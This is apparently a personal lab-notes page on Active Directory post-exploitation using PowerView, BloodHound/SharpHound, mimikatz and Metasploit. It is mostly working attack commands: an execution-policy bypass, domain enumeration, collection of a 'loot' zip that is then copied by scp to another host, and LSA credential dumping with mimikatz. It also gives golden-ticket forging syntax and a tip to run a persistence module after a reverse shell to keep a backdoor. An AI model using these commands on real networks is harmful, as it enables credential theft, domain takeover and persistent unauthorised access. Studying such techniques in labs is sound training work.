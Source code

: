 ```yaml
---
description: Maintaining access with mimikatz, bloodhound, powerview and msfvenom
---
```


# Post-Exploitation Basics

### Powerview

<pre><code>powershell -ep bypass
. .\Downloads\PowerView.ps1   #init powerview, the dot at first loads script to environment not run it directly
<strong>Get-NetUser | select cn
</strong>Get-WmiObject -class Win32_Share
Get-NetComputer -fulldata | select operatingsystem
psexec.exe is used to run commands on other systems
</code></pre>

find the ultimate powerview cheatsheet

### Bloodhound

```
RHOST (Sharphound, the collector tool for bloodhound)
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

#Apparently above commands are not for bloodhound 4.3 and above, use .exe instead

./SharpHound.exe --CollectionMethods All --ZipFileName output.zip
scp .\20240430053252_output.zip jtripz@10.9.200.182:/tmp #no extra perms needed

LHOST
neo4j console #username neo4j and pass you set
bloodhound
#importing graphs returned bad json file but uploading files worked
run analysis on these json files and graphs as required
```

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

### Mimikatz

```
privilege::debug #get 20 ok
lsadump::lsa /patch
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

<div align="left"><figure><img src="../../.gitbook/assets/image (61).png" alt="" width="435"><figcaption></figcaption></figure></div>

<div align="left"><figure><img src="../../.gitbook/assets/image (62).png" alt="" width="394"><figcaption></figcaption></figure></div>

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption><p>FQDN of the domain, SID (Security Identifier) of the domain, username of the account you want access to and the KRBTGT NTLM hash.</p></figcaption></figure>

KRBTGT is an automatically created default account used when a Microsoft Active Directory domain is created. Its main purpose is to authenticate Kerberos tickets as the Key Distribution Center (KDC) account.

**Run persistence module on msf after establishing reverse shell to maintain a backdoor**
